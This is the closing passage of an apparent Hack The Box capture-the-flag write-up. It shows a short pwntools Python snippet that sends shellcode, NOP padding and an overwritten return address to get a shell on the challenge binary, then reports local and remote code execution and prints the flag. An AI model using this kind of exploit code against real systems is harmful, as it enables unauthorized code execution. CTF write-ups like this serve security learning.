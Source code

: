 ```py
padding = asm('nop') * 18
shell = shellcode + padding + pack(0x4010b8)
sh.send(shell)
# get = sh.recv()
# print('recv 3 -->', get)
sh.interactive()
```

> RESULT LOCAL

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1199dafe-6d4f-4fe9-be92-186c626b13a7)


33. Got RCEEEE, let's send it remotely.

> RESULT REMOTE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dec26ca0-479e-4f8e-a777-c9addc2bfffc)


34. Got the flag!

## FLAG

```
HTB{why_st0p_wh3n_y0u_cAn_s1GRoP!?}
```


